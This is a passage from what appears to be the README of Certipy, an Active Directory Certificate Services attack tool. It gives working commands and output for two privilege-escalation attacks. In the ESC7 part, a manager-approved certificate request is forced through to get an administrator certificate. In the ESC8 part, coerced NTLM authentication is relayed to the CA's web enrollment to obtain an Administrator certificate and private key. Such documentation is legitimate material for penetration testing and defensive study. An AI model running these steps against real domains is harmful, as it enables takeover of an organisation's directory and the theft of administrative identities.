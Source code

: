 With our `Manage CA` and `Manage Certificates`, we can then issue the failed certificate request with the `ca` command and the `-issue-request <request ID>` parameter.

```bash
$ certipy ca 'corp.local/john:Passw0rd!@ca.corp.local' -ca 'corp-CA' -issue-request 674
Certipy v2.0.8 - by Oliver Lyak (ly4k)

[*] Successfully issued certificate
```

And finally, we can retrieve the issued certificate with the `req` command and the `-retrieve <request ID>` parameter.

```bash
$ certipy req 'corp.local/john:Passw0rd!@ca.corp.local' -ca 'corp-CA' -retrieve 674
Certipy v2.0.8 - by Oliver Lyak (ly4k)

[*] Rerieving certificate with ID 674
[*] Successfully retrieved certificate
[*] Got certificate with UPN 'administrator@corp.local'
[*] Loaded private key from '674.key'
[*] Saved certificate and private key to 'administrator.pfx'
```

#### ESC8

ESC8 is when an Enrollment Service has installed and enabled Web Enrollment via HTTP.

To start the relay server, we can run the `relay` command and specify the CA's IP in `-ca`.

By default, Certipy will request a certificate based on the `Machine` or `User` template depending on whether the relayed account name ends with `$`. It is possible to specify another template with the `-template` parameter.

We can then use a technique such as [PetitPotam](https://github.com/ly4k/PetitPotam) to coerce authentication. For domain controllers, we must specify `-template DomainController`.

```bash
$ certipy relay -ca 172.16.19.100
Certipy v2.0.8 - by Oliver Lyak (ly4k)

[*] Targeting http://172.16.19.100/certsrv/certfnsh.asp
[*] Listening on 0.0.0.0:445
[*] Setting up SMB Server
[*] SMBD-Thread-2: Connection from CORP/ADMINISTRATOR@172.16.19.101 controlled, attacking target http://172.16.19.100
[*] Authenticating against http://172.16.19.100 as CORP/ADMINISTRATOR SUCCEED
[*] Requesting certificate for 'CORP\\Administrator' based on the template 'User'
[*] Got certificate with UPN 'administrator@corp.local'
[*] Saved certificate and private key to 'administrator.pfx'
[*] Exiting...
```

## Contact

Please submit any bugs, issues, questions, or feature requests under "Issues" or send them to me on Twitter [@ly4k_](https://twitter.com/ly4k_).
